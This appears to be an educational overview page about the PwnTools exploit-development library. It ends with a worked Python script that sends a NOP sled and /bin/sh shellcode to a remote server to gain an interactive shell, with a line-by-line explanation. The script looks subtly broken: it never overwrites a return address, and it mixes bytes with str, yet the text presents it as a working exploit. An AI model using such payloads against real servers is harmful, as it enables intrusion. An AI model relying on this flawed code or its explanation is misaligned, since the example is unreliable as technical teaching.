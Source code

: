 # PwnTools


# 👉 Overview

---

### 👀 What ?

> PwnTools is a Python library that provides a powerful set of tools to aid in the process of exploit development and security research. It is designed to facilitate rapid prototyping and development, and encourages ad-hoc programming with a strong focus on interactivity.
> 

### 🧐 Why ?

> In the realm of cybersecurity, especially in penetration testing and exploit development, it's essential to have a toolkit that can ease the process of identifying, exploiting, and documenting vulnerabilities. PwnTools is such a toolkit. It reduces the complexity and time required to craft reliable exploits, enabling security researchers to focus more on their target and less on the intricacies of exploit construction.
> 

### ⛏️ How ?

> To utilize PwnTools, one must have a basic understanding of Python programming and exploit development. After installing the library, you can import it into your Python scripts and start using the various modules and functions it provides. These include functions for network connections, shellcode generation, binary packing/unpacking, and more. The simplicity and interactivity of PwnTools make it a powerful tool for both novice and experienced security researchers.
> 

### ⏳ When ?

> PwnTools has been used by security researchers and penetration testers since its initial release in 2013. Its features and ease of use have made it a go-to tool for many cybersecurity professionals.
> 

# ⚙️ Technical Explanations

---

PwnTools is a powerful Python library that serves as an essential toolkit for exploit development and security research. Its foundation on the Python programming language allows it to take advantage of Python's simplicity and its wide-ranging libraries. This makes PwnTools a versatile tool that can adapt to various exploit development scenarios.

One of the key features of PwnTools is its interactive REPL (Read-Eval-Print Loop) environment. This environment provides a user-friendly interface where users can execute one command at a time. This characteristic is particularly useful in debugging and exploit development, where the ability to execute and evaluate commands individually can make these complex tasks significantly more manageable. The REPL environment encourages interactive programming, fostering a hands-on approach to exploit development.

PwnTools also offers a vast array of modules designed to handle common tasks in exploit development. These modules cover a range of functions, including creating network connections, generating and executing shellcode, manipulating binary data, and many more. These modules are designed to simplify and streamline the exploit development process, enabling researchers to craft reliable exploits more efficiently and with less effort.

An exceptional feature of PwnTools is its seamless integration with the GNU Debugger (GDB). This integration allows researchers to debug their exploits within the same environment where they develop them, providing a unified and streamlined workflow. This feature simplifies the debugging process, making it easier for researchers to identify and address issues in their exploits, thereby increasing the reliability and effectiveness of their exploits.

Furthermore, PwnTools provides the capability to interact with binaries directly. It can read, write, and execute binary data, which is an essential feature when working with exploits. This ability allows researchers to test their exploits on different binaries without the need for additional tools or steps, making the testing process more convenient and efficient.

In summary, PwnTools is an invaluable tool in the field of cybersecurity, particularly in exploit development and security research. Its simplicity, versatility, and comprehensive feature set make it a go-to tool for both novice and experienced security researchers. Whether you're just starting in exploit development or an experienced professional, PwnTools is a tool that can help you streamline your workflow, increase your efficiency, and enhance the reliability and effectiveness of your exploits.

Consider a scenario where we want to exploit a buffer overflow vulnerability in a remote server. The server, located at '[example.com](http://example.com/)' on port 1234, expects to receive a string of a certain length and crashes when it receives a longer string. Our goal is to craft a payload that includes some shellcode, send it to the server, and gain control of the server's execution flow. Here's how you might do this with PwnTools:

```python
from pwn import *

# Establish a connection to the remote server
conn = remote('example.com', 1234)

# Craft the payload
buffer_size = 128
nop_sled_length = 90
shellcode = asm(shellcraft.sh()) # Create simple shellcode with a /bin/sh payload

nop_sled = asm('nop') * nop_sled_length # Create a NOP sled
payload = nop_sled + shellcode # Combine the NOP sled and shellcode
payload += 'A' * (buffer_size - len(payload)) # Add padding to reach the buffer size

# Send the payload
conn.sendline(payload)

# Interact with the shell
conn.interactive()

# Close the connection when we're done
conn.close()

```

Here's what each part of this code does:

1. We first import the `pwn` module, which gives us access to all the functionality provided by PwnTools.
2. We establish a connection to the remote server using the `remote` function.
3. We create a payload that will overflow the server's buffer. The payload includes a NOP sled, some shellcode, and some padding to fill the rest of the buffer.
    - The NOP sled is a sequence of 'no operation' (NOP) instructions that serves as a landing zone for the server's instruction pointer after the buffer overflow.
    - The shellcode is a sequence of machine instructions that will be executed when the instruction pointer lands on it. In this case, we use PwnTools' `asm` and `shellcraft` functions to create simple shellcode that spawns a shell (`/bin/sh`).
    - The padding is used to fill the rest of the buffer and trigger the overflow.
4. We send the payload to the server using the `sendline` function. This function sends the payload and automatically appends a newline character (`\\n`) to indicate the end of the data.
5. We switch to interactive mode using the `interactive` function. This allows us to interact with the server's shell directly from our terminal.
6. Finally, we close the connection using the `close` function to free up system resources.

This script exploits a simple buffer overflow vulnerability, but PwnTools provides the tools to exploit much more complex vulnerabilities as well. Its clean, high-level API makes it easy to build, send, and interact with payloads, and its comprehensive feature set allows you to handle almost any exploit development scenario.
